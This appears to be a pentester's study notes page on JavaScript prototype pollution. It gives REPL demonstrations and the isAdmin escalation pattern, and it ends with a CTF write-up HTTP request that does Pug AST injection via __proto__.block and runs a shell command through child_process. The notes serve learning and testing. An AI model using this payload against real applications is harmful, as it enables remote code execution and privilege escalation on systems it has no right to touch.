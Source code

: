 >[!tip]
>Cheatsheets and further information can be found at [NodeJS - __proto__ & prototype Pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)

# NodeJS and JavaScript

See also [JavaScript & NodeJS](../Dev,%20scripting%20&%20OS/JavaScript%20&%20NodeJS.md)

## `__proto__` pollution

>[!warning]
>Every object in JavaScript is simply a collection of key and value and every object inherits from the Object type in JavaScript. If you are able to pollute the Object type **each JavaScript object of the environment is going to be polluted!**

This is fairly simple, you just need to be able to modify some properties (key-value pairs) from an arbitrary JavaScript object, because as **each object inherits from `Object`**, **each object can access `Object` scheme**.

```jsx
function person(fullName) {
    this.fullName = fullName;
}

var person1 = new person("0xbro");
```

From the previous example it's possible to **access the structure of `Object`** using the following ways:

```jsx
> person1.__proto__.__proto__
> person.__proto__.__proto__

> person1.__proto__.__proto__ === person.__proto__.__proto__
true
```

If now a property is added to the Object scheme, every JavaScript object will have access to the new property:

```jsx
> person1.__proto__.__proto__.printHello = function(){console.log("Hello");}
function printHello()

> person1.printHello()
Hello

> var test = {}
undefined

> test.printHello()
Hello
```

Now **each JS object** will contain the new properties!****

## `prototype` pollution

>[!warning]
>If you are able to modify the properties of a function, you can modify the `prototype` property of the function and **each new property that you adds here will be inherit by each object created from that function.**

```jsx
function person(fullName) {
    this.fullName = fullName;
}
var person1 = new person("0xbro");
var person2 = new person("maoutis");
var person3 = new person("testname");
```

If I pollute a property of the **person** function, every object instantiated from **that function** is now polluted:

```jsx
> person.prototype.sayHello = function(){console.log("Hello");} // Add function as new property
function sayHello()

> person1.sayHello(); // inherits the function
Hello
undefined
> person2.sayHello(); // inherits the function
Hello

> person3.constructor.prototype.sayHelloBis = function(){console.log("HelloBis");} // Add function as new property using the constructor reference 
function sayHelloBis()

> person3.sayHelloBis(); // inherits the function
HelloBis

> person2.sayHelloBis(); // inherits the function 
HelloBis

> var test = {};
undefined
> test.sayHello();
Uncaught TypeError: test.sayHello is not a function // Error because the variable is not instanciated from "**person"**
```

There are 2 ways to abuse prototype pollution to poison **EVERY** JS object (like with `__proto__`).

- pollute the property prototype of **`Object`**

```jsx
Object.prototype.sayBye = function(){console.log("bye!")}
```

- poison the prototype of a constructor of a dictionary variable

```jsx
something = {"a": "b"}
something.constructor.prototype.sayHey = function(){console.log("Hey!")}
```

## Array elements pollution

Note that as you can pollute attributes of objects in JS, if you have access to pollute an array you can also **pollute values of the array** accessible **by indexes** (note that you cannot overwrite values, so you need to pollute indexes that are somehow used but not written).

```jsx
c = [1,2]
a = []
a.constructor.prototype[1] = "yolo"
b = []
b[0] //undefined
b[1] //"yolo"
c[1] // 2 -- not
```

## Practical Examples

So where’s the prototype pollution? It happens when there’s a bug in the application that makes it possible to overwrite properties of `Object.prototype`. Since every typical object inherits its properties from `Object.prototype`, we can change application behaviour. The most commonly shown example is the following:

```jsx
if (user.isAdmin) {   // do something important!}
```

Imagine that we have a prototype pollution that makes it possible to set `Object.prototype.isAdmin = true`. Then, unless the application explicitly assigned any value, `user.isAdmin` is always true!

### Attacker controlling the index of an array and the corresponding assigned value

For example, `obj[a][b] = value`. If the attacker can control the value of `a` and `value`, then he only needs to adjust the value of `a`to `__proto__`(in javascript, `obj["__proto__"]` and `obj.__proto__`are completely equivalent) then property `b` of all existing objects in the application will be assigned to `value`.

However, the attack is not as simple as the one above, according to [paper](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf), we can only attack when one of the following three conditions is met:

- Perform recursive merge
- Property definition by path
- Clone object

# AST Prototype Pollution

In NodeJS, AST is used in JS really often, as template engines and typescript etc. For the template engine, the structure is as shown above, and the most used two are **Handlebars** and **Pug**. [^1]

[^1]:  https://blog.p6.is/AST-Injection/

![|1000](../../zzz_res/attachments/ast1.png)

![|1000](../../zzz_res/attachments/ast2.png)

### Pug

Example from [Gunship](https://www.notion.so/Gunship-d7aa8f7841234d1c993ba55c44ab5191) 

```http
POST /api/submit HTTP/1.1
Host: 134.209.28.38:30545
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/
Content-Type: application/json
Origin: http://127.0.0.1:1337
Content-Length: 185
Connection: close

{
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('mkdir $(cat flagtZ1pK)')"
    },
"artist.name":"Haigh"
}
```